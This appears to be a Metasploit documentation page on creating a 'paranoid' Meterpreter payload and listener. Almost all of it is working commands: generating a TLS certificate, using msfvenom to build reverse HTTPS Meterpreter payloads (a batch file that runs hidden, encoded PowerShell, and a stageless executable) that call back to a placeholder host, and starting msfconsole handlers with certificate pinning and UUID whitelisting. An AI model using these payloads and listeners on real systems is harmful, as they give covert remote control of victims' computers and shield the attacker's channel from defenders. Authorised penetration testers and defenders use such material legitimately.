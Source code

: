 In some scenarios, it pays to be paranoid. This also applies to generating and handling Meterpreter sessions. This document walks through the process of implementing a paranoid Meterpreter payload and listener.

### Create a SSL/TLS Certificate

For best results, use a SSL/TLS certificate signed by a trusted certificate authority. Failing that, you can still generate a self-signed unified PEM using the following command:
```
$ openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
    -subj "/C=US/ST=Texas/L=Austin/O=Development/CN=www.example.com" \
    -keyout www.example.com.key \
    -out www.example.com.crt && \
cat www.example.com.key  www.example.com.crt > www.example.com.pem && \
rm -f www.example.com.key  www.example.com.crt
```

### Create a Paranoid Payload

For this use case, we will combine [[Payload UUID]] tracking and whitelisting with [TLS pinning](https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-http-communication.html#tls-certificate-pinning). For a staged payload, we will use the following command:

```
$ ./msfvenom -p windows/meterpreter/reverse_winhttps LHOST=www.example.com LPORT=443 PayloadUUIDTracking=true HandlerSSLCert=./www.example.com.pem StagerVerifySSLCert=true PayloadUUIDName=ParanoidStagedPSH -f psh-cmd -o launch-paranoid.bat

$ head launch-paranoid.bat
%COMSPEC% /b /c start /b /min powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcg...
```

A [[stageless|Meterpreter Stageless Mode]] version of this would look like the following:

```
$ ./msfvenom -p windows/meterpreter_reverse_https LHOST=www.example.com LPORT=443 PayloadUUIDTracking=true HandlerSSLCert=./www.example.com.pem StagerVerifySSLCert=true PayloadUUIDName=ParanoidStagedStageless -f exe -o launch-paranoid-stageless.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 885314 bytes
Saved as: launch-paranoid-stageless.exe
```

### Create a Paranoid Listener

A staged payload would need to set the ```HandlerSSLCert``` and ```StagerVerifySSLCert``` options to enable TLS pinning and ```IgnoreUnknownPayloads``` to whitelist registered payload UUIDs:
```
$ ./msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_winhttps; set LHOST www.example.com; set LPORT 443; set HandlerSSLCert ./www.example.com.pem; set IgnoreUnknownPayloads true; set StagerVerifySSLCert true; run -j'
```

A stageless version is only slightly different:
```
$ ./msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD windows/meterpreter_reverse_https; set LHOST www.example.com; set LPORT 443; set HandlerSSLCert ./www.example.com.pem; set IgnoreUnknownPayloads true; set StagerVerifySSLCert true; run -j'
```